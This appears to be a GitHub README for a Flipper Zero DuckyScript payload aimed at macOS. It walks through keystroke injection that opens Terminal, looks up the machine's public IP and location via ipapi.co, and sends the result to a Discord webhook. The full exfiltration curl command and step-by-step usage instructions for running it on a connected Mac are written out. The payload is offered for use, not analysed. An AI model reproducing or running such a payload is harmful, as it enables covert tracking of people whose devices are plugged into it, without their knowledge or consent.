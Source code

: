 # IPLogger-FlipZero by bst04

<div align=center>

<img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/logo-repository-2_0.gif" width="600" /><br><img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

This script, created by bst04, is designed to work on macOS systems. It opens Terminal, fetches the public IP address of the device, and sends it to a Discord webhook using `curl`.

---

## Technical Explanation

1. **Initialization**:
    - `DELAY 500`: Waits for 0.5 seconds to ensure the system is ready.
    - `GUI SPACE`: Simulates pressing the "Command" + "Space" keys to open Spotlight Search.
    - `DELAY 500`: Waits for 0.5 seconds for Spotlight to open.
    - `STRING Terminal`: Types "Terminal" to search for the Terminal application.
    - `ENTER`: Opens the Terminal application.

2. **Fetch Public IP Address**:
    - `DELAY 1000`: Waits for 1 second to ensure Terminal is fully opened.
    - `STRING location=$(curl -s https://ipapi.co/json/)`: Fetches the public IP address and stores it in a variable named `location`.

3. **Send IP Address to Discord Webhook**:
    - `DELAY 1000`: Waits for 1 second to ensure the previous command is executed.
    - `STRING curl -X POST -H "Content-Type: application/x-www-form-urlencoded" --data-urlencode "content=$location" https://yourwebhook`: Sends the link to the specified Discord webhook.

---

## Usage

1. Copy the payload script to your DuckyScript-enabled device.
2. Ensure the device is connected to a macOS system.
3. Execute the payload to fetch and send the public IP address to your Discord webhook.
